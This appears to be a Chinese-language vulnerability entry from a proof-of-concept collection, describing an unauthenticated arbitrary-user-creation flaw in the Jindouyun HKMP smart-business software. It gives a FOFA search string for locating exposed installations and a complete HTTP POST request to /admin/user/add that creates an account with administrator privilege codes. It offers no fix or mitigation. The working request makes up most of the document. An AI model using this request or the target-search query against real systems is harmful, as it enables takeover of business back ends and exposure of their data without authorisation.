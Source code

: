 ## 金斗云-HKMP智慧商业软件任意用户添加漏洞

金斗云 HKMP智慧商业软件 /admin/user/add 接口存在任意用户创建漏洞，未经身份验证的远程攻击者可以利用此漏洞创建管理员账户，从而接管系统后台，造成信息泄露，导致系统处于极不安全的状态。

## fofa

```
body="金斗云 HKMP"
```

## poc

```
POST /admin/user/add HTTP/1.1
Content-Type: application/json
Host: 

{"appId":"hkmp","mchId":"hkmp","deviceId":"hkmp","timestamp":1719305067,
"nonce":2287791269,"sign":"hkmp","data":{"userCode":"te1","userName":"te1","password":"123456","privilege":["1000","8000","8010","2000","2001","2010","7000"],"adminUserCode":"admin","adminUserName":"系统管理员"}}
```

![image-20240703170217938](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407031702984.png)